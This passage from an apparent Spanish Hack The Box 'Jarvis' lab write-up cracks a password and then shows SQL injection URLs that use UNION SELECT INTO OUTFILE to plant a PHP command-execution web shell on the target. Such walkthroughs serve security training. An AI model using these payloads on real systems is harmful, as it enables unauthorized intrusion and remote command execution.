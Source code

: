 ## Reversing password
Con [Crackstation](https://crackstation.net/) podemos ver que la contrasena es **imissyou** 

## Reverse shell
Vemos si tenemos permiso de crear archivos <br>
[http://10.10.10.143/room.php?cod=-1%20UNION%20SELECT%201,%22prueba%22,3,4,5,6,7%20INTO%20OUTFILE%20%22/var/www/html/prueba.php%22](http://10.10.10.143/room.php?cod=-1%20UNION%20SELECT%201,%22prueba%22,3,4,5,6,7%20INTO%20OUTFILE%20%22/var/www/html/prueba.php%22)
![asd](/assets/htb/jarvis/salvadaarchivo.png )
![asd](/assets/htb/jarvis/salvadaarchivo2.png )

Creamos nuestro remote command execution para luego entablar una reverse shell

{% raw %}
system($_REQUEST['cmd'])
 INTO OUTFILE "/var/www/html/cmd.php"
{% endraw %}
[http://10.10.10.143/room.php?cod=-1%20UNION%20SELECT%201,%22%3C?php%20system($_REQUEST[%27cmd%27])%20?%3E%22,3,4,5,6,7%20INTO%20OUTFILE%20%22/var/www/html/cmd.php%22](http://10.10.10.143/room.php?cod=-1%20UNION%20SELECT%201,%22%3C?php%20system($_REQUEST[%27cmd%27])%20?%3E%22,3,4,5,6,7%20INTO%20OUTFILE%20%22/var/www/html/cmd.php%22)
![asd](/assets/htb/jarvis/whoa.png )
